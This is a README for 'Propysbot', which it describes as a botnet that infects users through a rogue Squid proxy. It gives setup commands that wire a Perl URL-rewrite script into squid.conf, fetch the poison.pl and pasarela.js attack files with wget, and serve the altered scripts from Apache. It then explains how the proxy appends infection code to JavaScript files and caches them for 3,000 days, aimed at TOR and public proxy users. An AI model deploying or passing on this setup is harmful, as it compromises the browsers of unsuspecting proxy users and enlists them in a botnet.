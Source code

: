 # Propysbot
Botnet Javascript in Server Proxy

# about
Moving from an environment that specifically infects a
JavaScript file, we decided that the best way to create the
botnet would be if bots did "motu proprio", it means, not a
forced man in the middle, but chosen by themselves. Hereby
we decided to focus on the TOR network and Proxy servers
used on the Internet.

# Starting
```
apt-get install squid3
cd /etc/squid3/
nano squid.conf 
  write: url_rewrite_program /usr/bin/perl /etc/squid3/poison.pl in last line
wget https://raw.githubusercontent.com/RedToor/Propysbot/master/poison.pl
nano poison.pl 
  modify the line:
  print "http://myip:80/tmp/$pid-$count.js\n"; # REPLACE_IP
  with you ip 
wget https://raw.githubusercontent.com/RedToor/Propysbot/master/pasarela.js
chmod 777 /var/www/html/
service apache2 start
service squid3 start
```
# Logic
1) Download the file from its original location.<br>
2) Save it to a temporary location.<br>
3) Add the JavaScript infection code at the end of the
JavaScript file.<br>
4) Make that file has an expiration date of 3,000 days.<br>
5) Deliver to the clients the new created JavaScript file.<br>

http://cave-rt.blogspot.com/2015/06/como-hacer-una-botnet-js-con-squid-proxy.html
